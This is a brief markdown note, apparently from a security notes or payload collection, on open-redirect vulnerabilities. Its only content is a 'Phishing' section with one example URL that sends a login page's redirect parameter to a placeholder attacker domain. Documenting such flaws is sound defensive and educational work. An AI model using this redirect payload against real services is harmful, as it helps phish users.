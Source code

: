# Open Redirect

## Table of Contents
- [Phishing](#phishing)

## Phishing

### Users can be redirected to malicious sites, leading to phishing.

- Redirect to malicious domain
  ```
  https://[VULNERABLE-SERVICE]/login?redirect_url=http://[ATTACKER-DOMAIN]/
  ```
